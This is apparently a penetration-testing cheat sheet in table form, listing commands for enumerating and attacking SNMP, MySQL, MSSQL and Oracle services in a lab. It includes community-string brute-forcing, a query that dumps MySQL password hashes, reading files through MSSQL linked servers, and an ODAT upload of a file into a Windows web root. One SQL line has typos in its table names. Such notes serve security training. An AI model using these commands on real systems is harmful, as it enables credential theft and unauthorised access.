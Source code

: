 | `**Command**` | **Description** |

| `-------------------------------------------------` | --------------------------------------------------- |

| ``snmpwalk -v2c -c <community string> <FQDN/IP>`` | Querying OIDs using snmpwalk. |

| ``onesixtyone -c community-strings.list <FQDN/IP>`` | Bruteforcing community strings of the SNMP service. |

| ``braa <community string>@<FQDN/IP>:.1.*`` | Bruteforcing SNMP service OIDs. |

| `---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

| ``mysql -u root -pP4SSw0rd -h 10.129.14.128`` | Interaction with the MySQL Server |

| ``sudo mysql -Ns -u USER -p -h oscp.exam -e "SELECT SUBSTR(authentication_string,2) AS hash FROM mysql.user WHERE plugin = 'mysql_native_password' AND authentication_string NOT LIKE '%THISISNOTAVALIDPASSWORD%' AND authentication_string !='';" `` | selects a substring of the authentication_string column for users with the 'mysql_native_password' plugin, excluding rows with a specific invalid password and empty passwords. The result is a list of hashed passwords |

| ``SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.erver_pricipal b ON a.grantor_principal_id = b.principal_ID WHERE a.permission_name = 'IMPERSONATE'`` | Find users who can be impersonated within current DB |

| ``SELECT srvname, isremote FROM sysservers`` | Get remote/linked SQL servers |

| ``EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]`` | Get information from remote server from above step. Can also be used for local |

| ``execute ('select * from openrowset(bulk ''c:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV];`` | Read file execute on remote/linked server |

| `-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | ---------------------------------------------------------------------------------------- |

| ``mssqlclient.py <user>@<FQDN/IP> -windows-auth`` | Log in to the MSSQL server using Windows authentication. |

| ``auxiliary/scanner/mssql/mssql_ping`` | MSFconsole module returns info on pingable database such as hostname, Version, port etc. |

| ``locate mssqlclient.py`` | Locate mssqlclient.py |

| `--------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------------ |

| ``./odat all -s <IP>`` | Python tool to enumerate/gather information about Oracle database services and components. |

| `SQLPlus` |  |

| ``sqlplus <USERNAME>/<PASSWORD>@<IP>/<SID>;`` | Logon to the database using gathered credentials and SID |

| `ODAT file upload` |  |

| ``echo "Oracle File Upload Test" > testing.txt`` |  |

| ``./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot\\testing.txt ./testing.txt`` |  |
